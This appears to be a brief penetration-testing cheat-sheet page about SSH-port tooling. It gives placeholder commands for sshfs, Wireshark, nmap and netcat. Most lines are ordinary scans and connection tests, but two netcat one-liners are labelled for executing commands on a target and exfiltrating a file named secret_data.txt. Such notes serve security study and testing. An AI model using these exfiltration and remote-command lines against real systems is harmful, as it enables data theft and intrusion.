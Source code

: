 *   **Mount Remote Directory via SSH:** Mounting and interacting with remote filesystems as if they were local.

    ```bash
    sshfs <username>@<target_ip>:/remote/dir /local/mountpoint
    ```

#### \[\[PuTTY]]

#### \[\[WinSCP]]

#### \[\[FileZilla]]

#### tmux/Screen

### Exploitation Tools

#### \[\[Metasploit]]

#### \[\[Wireshark]]

*   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "tcp port 22"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 22
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 22
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 22 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 22
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 22 < secret_data.txt
    ```
